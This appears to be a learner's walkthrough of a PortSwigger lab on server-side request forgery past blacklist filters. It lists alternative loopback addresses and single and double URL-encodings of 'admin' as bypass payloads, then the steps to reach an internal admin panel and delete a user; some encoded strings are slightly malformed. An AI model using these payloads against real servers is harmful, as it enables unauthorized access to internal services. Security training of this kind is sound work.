








SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin.
In this situation, you can often circumvent the filter using various techniques:
• Using an alternative IP representation of 127.0.0.1, such as:
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
http://localhost
• Registering your own domain name that resolves to 127.0.0.1.
◇ You can use spoofed.burpcollaborator.net for this purpose.
• Obfuscating blocked strings using URL encoding or case variation.
example: “admin” URL encoding:
61%64%6d%69%6e Double URL encoding:
%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65 Exercise:1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2. Change the URL in the
stockApi parameter to
http://127.0.0.1/ and observe that the request is blocked.
3. Try to bypass by changing the URL in the
stockApi parameter
 http://127.1/ bypass the filter
4. Change the URL to
http://127.1/admin and observe that the URL is blocked again.
 It seems that the word “admin” is blocked lets try to bypass it with URL encoding or case variation
5. Obfuscate "admin" by URL encoding it to
61%64%6d%69%6e to access the admin interface
 NOT bypassed
7. Double Encoding “admin” by double-URL-encoding it to
%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65  YESS bypassed
8. Let's try to bypass it also with case varions, like from “admin” to “AdMiN”
 YESS bypassed
9. Try to delete the target user with
/admin/delete?username=carlos Bibliography:
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter